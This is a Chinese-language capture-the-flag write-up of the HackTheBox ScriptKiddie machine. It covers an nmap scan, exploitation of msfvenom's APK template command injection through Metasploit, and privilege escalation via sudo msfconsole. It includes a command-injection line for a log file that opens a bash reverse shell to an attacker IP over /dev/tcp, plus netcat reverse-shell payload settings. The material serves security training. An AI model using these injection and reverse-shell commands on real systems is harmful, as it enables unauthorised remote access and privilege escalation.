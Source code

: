 # HackTheBox-ScriptKiddie

  
  
&lt;!--more--&gt;  
使用`nmap`进行扫描  
```bash  
sudo nmap --min-rate 10000 -sS -Pn -sV 10.129.95.150  
  
Nmap scan report for 10.129.95.150  
Host is up (0.15s latency).  
Not shown: 997 closed tcp ports (reset)  
PORT     STATE    SERVICE VERSION  
22/tcp   open     ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)  
53/tcp   filtered domain  
5000/tcp open     http    Werkzeug httpd 0.16.1 (Python 3.8.5)  
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel  
  
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .  
Nmap done: 1 IP address (1 host up) scanned in 11.18 seconds  
```  
`5000`端口存在`Web`服务，访问查看  
一个类似于黑客工具的网站  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202404131833212.png)
其中`msfvenom`存在漏洞  
利用其中的工具搜`msfvenom`漏洞  
存在`APK template command injection`漏洞，  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202404131836917.png)
利用`msf`直接生成  
`use exploit/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection`  
`set payload cmd/unix/reverse_netcat`  
设置好参数进行反弹`shell`  
利用`msf`中的`exploit/multi/handler`接收`shell`  
利用`python`升级成`TTY`格式  
`python3 -c &#39;import pty;pty.spawn(&#34;bash&#34;)&#39;`  
获得`user.txt`中的`flag`  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202404131902939.png)
进入`pwn`用户，其中有一个`scanlosers.sh`脚本  
```bash  
#!/bin/bash  
  
log=/home/kid/2/hackers  
  
cd /home/pwn/  
cat $log | cut -d&#39; &#39; -f3- | sort -u | while read ip; do  
    sh -c &#34;nmap --top-ports 10 -oN recon/${ip}.nmap ${ip} 2&gt;&amp;1 &gt;/dev/null&#34; &amp;  
done  
  
if [[ $(wc -l &lt; $log) -gt 0 ]]; then echo -n &gt; $log; fi  
```  
该脚本会一直扫描`/home/kid/logs/hackers`的目录文件的IP地址，并且该脚本并未对hackers文件传入的内容进行过滤，所以我们直接在`hackers`下面写入内容即可  
`echo &#34;x x x 127.0.0.1; bash -c &#39;bash -i &gt;&amp; /dev/tcp/10.10.16.4/8888 0&gt;&amp;1&#39; # .&#34; &gt; hackers`  
成功反弹`shell  
```bash  
pwn@scriptkiddie:~$ whoami  
whoami  
pwn  
```  
执行`sudo -l`发现可以用`root`权限执行`msfconsole`  
```bash  
Matching Defaults entries for pwn on scriptkiddie:  
    env_reset, mail_badpass,  
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin  
  
User pwn may run the following commands on scriptkiddie:  
    (root) NOPASSWD: /opt/metasploit-framework-6.0.9/msfconsole  
```  
执行`msfconsole`获取`root.txt`  
```bash  
sudo msfconsole  
```  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202404132158746.png)

---

> Author: N1Rvana  
> URL: https://nlrvana.github.io/hackthebox-scriptkiddie/  

